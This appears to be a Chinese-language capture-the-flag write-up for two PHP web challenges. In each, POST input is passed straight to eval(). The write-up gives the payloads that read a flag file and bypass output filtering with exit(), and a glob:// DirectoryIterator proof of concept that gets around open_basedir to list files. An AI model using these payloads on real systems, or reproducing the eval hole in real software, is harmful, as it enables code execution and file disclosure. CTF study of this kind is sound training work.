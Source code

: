 

## web 71

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
你要上天吗？
```

 $s = ob_get_contents();//得到缓冲区的数据。
 ob_end_clean();//会清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。

可以利用exit9);停止后面的程序

payload：c=require("/flag.txt");exit();



## web 72

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

```
绕过open_basedir
#poc
c=?><?php
	$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
//通过这个发现flag在flag0.txt
//之后利用uaf的脚本进行命令执行
```
